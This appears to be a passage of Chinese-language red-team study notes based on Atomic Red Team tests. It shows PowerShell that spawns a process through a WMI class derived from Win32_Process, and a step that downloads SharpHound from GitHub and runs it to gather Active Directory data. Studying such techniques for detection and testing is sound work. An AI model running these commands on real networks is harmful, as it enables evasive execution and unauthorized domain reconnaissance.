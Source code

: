   在此示例中将启动 Windows 记事本应用程序(Notepad) 

---

#### 在 powershell 中从 Win32_Process 派生一个类新建进程

---

```powershell
# 创建一个 ManagementClass 对象，代表 Win32_Process WMI 类
$Class = New-Object Management.ManagementClass(New-Object Management.ManagementPath("Win32_Process"))
# 从 Win32_Process 类派生出一个新的类，并命名为 Win32_Atomic
$NewClass = $Class.Derive("Win32_Atomic")
# 将新创建的 Win32_Atomic 类注册到 WMI 命名空间中。这意味着，之后可以像其他标准 WMI 类一样使用 Win32_Atomic。
$NewClass.Put()
# 使用 Invoke-WmiMethod 命令调用 Win32_Atomic 类的 create 方法新建一个进程启动记事本
Invoke-WmiMethod -Path Win32_Atomic -Name create -ArgumentList notepad.exe

# Clean
# 创建一个指向 Win32_Atomic 类的 ManagementClass 对象。
$CleanupClass = New-Object Management.ManagementClass(New-Object Management.ManagementPath("Win32_Atomic"))
# 尝试删除 Win32_Atomic 类
try { $CleanupClass.Delete() } catch {}
```

- `Win32_Process` 是一个预定义的 WMI 类，用于表示和操作系统进程相关的信息。

- 派生操作是在 WMI 中创建一个新的类，它继承了父类的所有属性和方法。

- 由于 Win32_Atomic 类是从 Win32_Process 类派生的，它继承了 create 方法，该方法用于创建新的进程。

  在这个例子中，它被用来启动 Windows 的记事本应用程序(Notepad) 。

  ---

- `try { $CleanupClass.Delete() } catch {}`:用于尝试执行某些操作，并捕获如果这些操作失败时产生的任何异常。

  在 `try` 块中，代码尝试调用 `$CleanupClass.Delete()`，这个方法用于从 WMI 命名空间中删除 `Win32_Atomic` 类。

---

## 信息收集

### 域内信息收集

#### SharpHound

下载文件再执行:

```powershell
New-Item -Type Directory "C:\AtomicRedTeam\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "C:\AtomicRedTeam\ExternalPayloads\SharpHound.ps1"
import-module "C:\AtomicRedTeam\ExternalPayloads\SharpHound.ps1"
try { Invoke-BloodHound -OutputDirectory $env:Temp }
catch { $_; exit $_.Exception.HResult}
Start-Sleep 5

# 删除输出目录
Remove-Item $env:Temp\*BloodHound.zip -Force
```
